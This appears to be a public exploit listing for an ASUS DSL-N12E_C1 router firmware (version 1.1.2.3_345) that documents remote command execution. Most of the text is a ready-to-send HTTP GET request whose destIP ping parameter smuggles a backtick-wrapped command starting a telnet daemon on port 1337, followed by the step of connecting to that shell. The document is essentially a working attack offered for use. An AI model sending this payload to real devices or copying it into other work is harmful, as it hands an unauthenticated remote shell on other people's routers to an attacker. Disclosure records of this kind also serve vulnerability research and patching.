 Exploit Title: ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution<br>
Date: 2018-08-02<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.asus.com/<br>
Software Link: https://www.asus.com/Networking/DSLN12E_C1/HelpDesk_BIOS/<br>
Version: 1.1.2.3_345<br>
Tested on: 1.1.2.3_345<br>
<br>
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1<br>
Host: www.target.com<br>
Connection: keep-alive<br>
Pragma: no-cache<br>
Cache-Control: no-cache<br>
Upgrade-Insecure-Requests: 1<br>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Referer: http://www.target.com/Main_Analysis_Content.asp<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-US,en;q=0.9<br>
<br>
To connect<br>
1. telnet www.target.com 1337<br>
<br>
